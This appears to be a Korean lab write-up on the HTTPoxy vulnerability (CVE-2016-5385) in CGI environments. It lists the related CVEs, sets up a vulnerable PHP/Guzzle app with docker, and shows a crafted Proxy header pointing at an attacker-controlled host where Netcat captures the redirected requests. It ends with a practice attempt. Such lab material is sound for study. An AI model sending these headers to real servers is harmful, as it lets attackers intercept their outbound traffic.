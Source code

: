 # HTTPoxy CGI 애플리케이션 취약점 (CVE-2016-5385)

httpoxy는 CGI 또는 CGI와 유사한 환경에서 실행되는 애플리케이션 코드에 영향을 미치는 일련의 취약점입니다. 이는 간단한 네임스페이스 충돌로 이어집니다:

- RFC 3875 (CGI)는 요청의 HTTP 프록시 헤더를 HTTP_PROXY로 환경 변수에 넣습니다.
- HTTP_PROXY는 외부 프록시를 구성하는 데 사용되는 인기있는 환경 변수입니다.

이는 원격으로 취약성을 노출시킵니다. 자세한 원리에 대해서는 https://httpoxy.org를 참조하세요.

CVE-2016-5385는 HTTPoxy에 할당된 CVE 중 하나이며, 전체 CVE 목록은 다음과 같습니다:

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

## 취약한 환경

다음 명령을 실행하여 PHP 5.6.23 및 GuzzleHttp 6.2.0에 의존하는 웹 애플리케이션을 시작하십시오.

```
docker compose up -d
```

이 웹 페이지는 http://httpbin.org/get에서 원본 IP 주소를 가져옵니다:

![](1.png)

이 시점에서 호스트 이름 IP는 원래 IP와 동일하여 HTTP 프록시가 없습니다.

## 익스플로잇

사용 가능한 HTTP 프록시 주소를 포함하는 조작된 HTTP 헤더를 포함하는 요청을 보냅니다:                             `Proxy: http://*.*.122.65:8888/`:

![](2.png)

응답의 원래 주소가 프록시 서버의 IP 주소가 된 것이 분명합니다.

HTTP 프록시 대신 `*.*.122.65`에서 Netcat 서버를 시작하여 원래 요청을 캡처할 수 있습니다:

![](3.png)

---

### 실습

정상적인 Request를 보내면 다음과 같은 Response가 온다.

![](4.png)

Exploit을 위해 `Http-Proxy: http://172.17.60.66:8888/`를 추가하여 보낸다.

![](5.png)

하지만 실제 보내진 요청은 다음 그림과 같다

![](6.png)

그림에서 볼 수 있듯이 헤더를 조작하여 보낸 Http-Proxy가 사라진채 Request를 보내지만, 응답의 headers 부분에는 들어가있는 모습을 볼 수 있다.
이유는 알 수 없지만, 추측컨데 사용한 크롬 브라우저에서 막은걸로 유추된다.